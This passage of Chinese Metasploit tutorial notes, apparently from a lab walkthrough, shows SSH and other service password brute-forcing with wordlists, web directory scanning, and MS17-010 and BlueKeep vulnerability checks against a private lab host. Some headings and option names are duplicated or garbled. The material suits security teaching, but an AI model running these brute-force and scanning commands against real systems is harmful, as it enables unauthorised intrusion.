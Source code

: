 <hr/>
<h4>7.2、口令爆破：SSH</h4>
**第一步：选择模块**
search ssh_login
auxiliary/scanner/ssh/ssh_login
（show option）


**第二步：设置**
set RHOST 192.168.190.131
set USERname kail
set PASS_FILE /home/kali/tools/wordlist/top3000.txt
#路径为字典位置，这是我自己下载的字典
run


<hr/>

<h4>7.3、其他服务口令猜解</h4>
<table border="1" cellpadding="1" cellspacing="1"><tbody>|口令猜解|模块
|telnet|use auxiliary/scanner/telnet/telnet_login
|mssql|use auxiliary/scanner/mssql/mssql_login
|smb|use auxiliary/scanner/smb/smb_login
</tbody></table>




#### 7.2、口令爆破：SSH

---


> 
<h3>八、网站敏感目录扫描</h3>
**选择模块**
需要提供一个目录字典(kail中有)
use auxiliary/scanner/http/dir_scanner
show options


**设置**
set RHOST 192.168.190.131
set PATH /home/kali/tools/wordlist/(目录字典)
run

 可能是我使用的字典的原因，就出错了吧


> 
<h3>九、扫描内网中存在特定目录的主机</h3>
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
<hr/>

host likely vulnerable to MS17-010
#存在这个漏洞，可利用攻击
host does not appear vulnerable
#不易受到攻击 / 不存在这个漏洞

